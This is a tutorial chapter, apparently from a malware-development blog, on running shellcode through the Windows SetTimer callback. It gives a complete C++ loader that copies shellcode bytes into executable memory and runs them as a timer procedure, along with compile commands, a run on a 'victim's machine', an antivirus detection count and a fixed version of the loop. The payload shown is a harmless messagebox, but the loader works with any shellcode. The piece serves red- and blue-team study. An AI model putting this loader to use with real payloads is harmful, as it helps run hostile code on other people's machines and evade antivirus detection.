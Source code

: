 \newpage
\subsection{44. malware development trick. Run shellcode via SetTimer. Simple C++ example.}

﷽

![trick](./images/98/2023-06-04_13-37.png){width="80%"}      

This article is the result of my own research into the next interesting trick: run shellcode via `SetTimer` function.      

### SetTimer

The `SetTimer` function is a part of the Windows API. It is used to create a timer with a specified time-out value.     

Here is its basic syntax:    

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Where:

- `hWnd`: A handle to the window to be associated with the timer. This window must be owned by the calling thread. If a `NULL` value for `hWnd` is passed in along with an `nIDEvent` of an existing timer, that old timer will be replaced by the new one.      
- `nIDEvent`: A nonzero timer identifier. If the hWnd parameter is `NULL`, and the `nIDEvent` does not match an existing timer then it is ignored and a new timer ID is generated. If the `hWnd` is not `NULL` and the window specified by hWnd already has a timer with the value nIDEvent, then the existing timer is replaced by the new timer. When `SetTimer` replaces a timer, the timer is reset.     
- `uElapse`: The time-out value, in milliseconds.      
- `lpTimerFunc`: A pointer to the function to be notified when the time-out value elapses. If this parameter is `NULL`, the system posts a `WM_TIMER` message to the application queue. This message is processed by the window procedure.      

### practical example

So, what's the trick? Just take a look at this (`hack.c`):      

```cpp
/*
 * hack.cpp - run shellcode via SetTimer. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

As you can see, this code seems to attempt to execute shellcode using the `SetTimer` Windows API function by providing it a pointer to a function `(TIMERPROC)` to be called when the timer expires.     

As usually, for simplicity I used `meow-meow` messagebox payload:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let’s go to see everything in action. Compile our "malware":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![trick](./images/98/2023-06-04_13-38.png){width="80%"}      

And run in our victim’s machine:     

```powershell
.\hack.exe
```

![trick](./images/98/2023-06-04_13-59.png){width="80%"}      

As you can see, everything is worked perfectly! =^..^=

Let’s go to upload `hack.exe` to VirusTotal:       

![trick](./images/98/2023-06-04_14-01.png){width="80%"}      

**So, 19 of 71 AV engines detect our file as malicious.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

But, I think we have an issue in our dirty PoC code.      

The `SetTimer` function requires the `uElapse` parameter to be set. This parameter represents the time-out value, in milliseconds. If it's set to `NULL` or `0`, the function will not set the timer. So, if we want to execute shellcode immediately, we need to set `uElapse` to `1`. Something like this:      

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Set uElapse to 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Using while loop to keep the 
                                           //message pump running
  DispatchMessageA(&msg);
}
```

This code will create a timer that expires almost immediately and calls our shellcode as a callback function. Of course, note that this kind of technique can be detected as malicious by antivirus software due to the anomalous behavior of executing code through a timer callback.        

I haven't seen this trick in the real-life malware and APT attacks yet. I hope this post spreads awareness to the blue teamers of this interesting malware dev technique, and adds a weapon to the red teamers arsenal.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-06-04-malware-tricks-31)           
